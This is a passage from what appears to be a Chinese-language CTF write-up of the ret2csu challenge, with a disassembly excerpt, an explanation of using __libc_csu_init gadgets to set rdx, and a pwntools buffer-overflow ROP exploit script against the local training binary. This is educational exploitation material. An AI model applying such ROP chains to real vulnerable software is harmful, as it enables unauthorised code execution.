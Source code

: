 .text:000000000040069E                 pop     r13
.text:00000000004006A0                 pop     r14
.text:00000000004006A2                 pop     r15
.text:00000000004006A4                 retn
.text:00000000004006A4 ; } // starts at 400640
.text:00000000004006A4 __libc_csu_init endp

代码中0000000000400680位置有对rdx的赋值，如果在函数后面的执行过程中不会破坏掉这个寄存器，那么就可以把对rdx的赋值转换为对r15的赋值了，因此手动调试，并对此函数（__libc_csu_init）手动设置传入参数，然后观察执行后的rdx是否有被修改，经过测试可以满足预期，因此可以使用这种方式，来构造rdx，但同时注意在调用__libc_csu_init时，不能直接调用开始位置，因为这样会把r15寄存器修改掉，因此选择其后面的指令作为开始，这样就需要在压入两个寄存器来平衡栈数据（shellcode += p64(csu_address) + p64(0) + p64(0)）

EXP:
```python
from pwn import *

sh = process("./ret2csu")

pop_rdi = 0x4006a3
pop_rsi_r15 = 0x4006a1
csu_address = 0x400647
call_ret2win = 0x400510

shellcode = b'A' * 0x28
shellcode += p64(pop_rdi) + p64(0xdeadbeefdeadbeef)
shellcode += p64(pop_rsi_r15) + p64(0xcafebabecafebabe) + p64(0xd00df00dd00df00d)
shellcode += p64(csu_address) + p64(0) + p64(0)
shellcode += p64(pop_rdi) + p64(0xdeadbeefdeadbeef)
shellcode += p64(pop_rsi_r15) + p64(0xcafebabecafebabe) + p64(0xd00df00dd00df00d)
shellcode += p64(0x40062a)

raw_input()
sh.send(shellcode)
sh.interactive()
```